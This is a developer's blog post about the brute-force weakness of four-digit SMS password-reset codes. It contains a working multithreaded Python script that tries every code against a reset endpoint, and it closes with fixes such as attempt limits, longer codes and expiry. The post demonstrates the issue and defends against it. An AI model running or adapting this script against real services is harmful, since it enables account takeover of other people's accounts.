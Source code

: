```yaml
---
author: ZhgChgLi
categories:
- ZRealm Dev.
date: 2021-03-14T15:57:38.256+0000
description: Discover how weak SMS verification codes expose accounts to brute force
  attacks. Learn Python-based methods to identify vulnerabilities and strengthen your
  authentication process for enhanced security outcomes.
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
last_modified_at: 2024-04-13T16:30:08.749+0000
render_with_liquid: false
tags:
- english
- iOS App Development
- Hacker
- Web Security
- Password Security
- Security Token
title: SMS Verification Code Security｜Prevent Brute Force Attacks with Python Demonstrations
---
```


### Security Issues with SMS Verification Code Strength for Password Recovery

Using Python to Demonstrate the Severity of Brute Force Attacks

![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}

### Introduction

This article contains little cybersecurity technical content; it is simply a sudden idea that came up while using a certain platform's website recently. I decided to casually test its security and ended up discovering an issue.

When using the password recovery feature on websites or apps, there are usually two options. One is to enter your username or email, and then a reset password page link containing a token is sent to your inbox. Clicking the link opens the page where you can reset your password. This part generally has no issues unless, as mentioned in the [previous article](../142244e5f07a/), there are design flaws that cause problems.

Another way to recover your password is by entering the linked phone number (mostly used in APP services). A verification code will be sent via SMS to the phone, and entering the code completes the password reset. For convenience, most services use numeric codes as verification codes. Additionally, since iOS ≥ 11 added the [Password AutoFill](../948ed34efa09/) feature, the keyboard will automatically detect and prompt the verification code when the phone receives it.

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

Check the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple does not provide a format rule for automatically filling verification codes; however, almost all services that support autofill use pure numbers. It is inferred that only numbers are allowed, and complex combinations of numbers and letters are not supported.

### Question

Because numeric passwords can be brute-forced, especially 4-digit codes; the combinations range only from 0000 to 9999, totaling 10,000 combinations; using multiple threads and machines can split the workload for brute-force cracking.

Assuming each verification request takes 0.1 seconds to respond, 10,000 combinations = 10,000 requests

```
Time required to crack: ((10,000 * 0.1) / number of threads) seconds
```

Even without opening a thread, it only takes about 16 minutes to try the correct SMS verification code.

> *Besides insufficient password length and complexity, there is also the issue of no attempt limit and overly long validity period for verification codes.*

### Combination

In summary, this security issue is common on the app side. Web services usually add CAPTCHA verification after multiple failed attempts or require additional security questions when requesting password resets, increasing the difficulty of sending verification requests. Additionally, if web services do not separate front-end and back-end, each verification request requires loading the entire webpage, lengthening the response time.

On the app side, password reset processes are often simplified for user convenience, and some apps even allow login through phone number verification; if there is no protection on the API side, this can lead to security vulnerabilities.

### Practice

> ⚠️Warning⚠️ This article is for demonstrating the severity of this security issue only. Do not use it for malicious purposes.

#### Sniffing Authentication Request API

Everything starts with sniffing. For this part, you can refer to the previous articles "[APP uses HTTPS transmission, but data is still stolen.](../46410aaada00/)" and "[Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)". The first article explains the principle, and it is recommended to use [Proxyman](https://proxyman.io/){:target="_blank"} from the second article for sniffing.

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

For websites with separated front-end and back-end, you can also use Chrome -> Inspect -> Network -> to see what requests are sent after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the received verification code request is:**

```
POST https://zhgchg.li/findPWD
```

**Response:**

```
{
   "status":false
   "msg":"Verification error"
}
```

#### Writing a Brute Force Python Script

crack.py:

```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

After running the script, we get:

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
Verification code equals: 1743
```

Enter `1743` to reset the password, replace the original password, or log in directly.

> Bigo!

### Solution

- Password reset with additional information verification (e.g., birthdate, security questions)

- Increase the verification code length (e.g., Apple’s 6-digit code) and increase the verification code complexity (if it does not affect the AutoFill function)

- Invalidate the verification code after more than 3 failed attempts, requiring the user to request a new code.

- Verification Code Expiration Time Shortened

- Lock device after too many failed verification attempts, add CAPTCHA verification

- APP should implement more SSL Pinning and transmission encryption/decryption (to prevent sniffing)

### Further Reading

- [Revealing a Clever Website Vulnerability Discovered a Few Years Ago](../142244e5f07a/)

- [How to Create an Engaging Engineering CTF Competition](../729d7b6817a4/)

- [The app uses HTTPS for transmission, but data was still stolen.](../46410aaada00/)

- [Automate Routine Tasks with Python + Google Cloud Platform + Line Bot](../70a1409b149a/)

If you have any questions or feedback, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

*[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}.*